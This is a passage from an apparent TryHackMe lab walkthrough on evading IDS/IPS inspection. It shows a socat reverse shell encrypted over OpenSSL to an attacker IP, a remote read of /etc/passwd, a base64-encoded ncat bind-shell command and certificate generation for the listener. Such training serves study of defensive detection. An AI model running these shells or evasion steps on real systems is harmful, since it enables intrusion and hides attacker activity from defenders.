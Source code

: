 ```

Target Terminal

           
pentester@target$ socat OPENSSL:10.20.30.129:4443,verify=0 EXEC:/bin/bash

        


```

Back to the attacker system, let’s run cat /etc/passwd:

```
           
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
[...]
2022/02/24 15:54:28 socat[7620] N starting data transfer loop with FDs [7,7] and [1,1]

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
[...]

        
```

However, if the IDS/IPS inspects the traffic, all the packet data will be encrypted. In other words, the IPS will be completely oblivious to exchange traffic and commands such as cat /etc/passwd. The screenshot below shows how things appear on the wire when captured using Wireshark. The highlighted packet contains cat /etc/passwd; however, it is encrypted.

```
┌──(kali㉿kali)-[~/IDS_IPS_evasion]
└─$ nano input.txt           
                                                                                           
┌──(kali㉿kali)-[~/IDS_IPS_evasion]
└─$ base64 input.txt                         
bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaAo=
                                                                                           
┌──(kali㉿kali)-[~/IDS_IPS_evasion]
└─$ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
.....+...+...+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*....+.+..+......+..........+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*.+...............+.+.....+............+............+.........+......+....+...........+........................+.+...+......+.....+.+.........+.........+..+......+..........+............+...+...+..+....+...+......+............+........+....+.....+.+.....+............+...............+....+......+............+.....+..........+...........+.+...............+...+.....+.+...........+.+...+..+......................+...+.....+...+..........+......+.....+......+....+......+.................................+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
```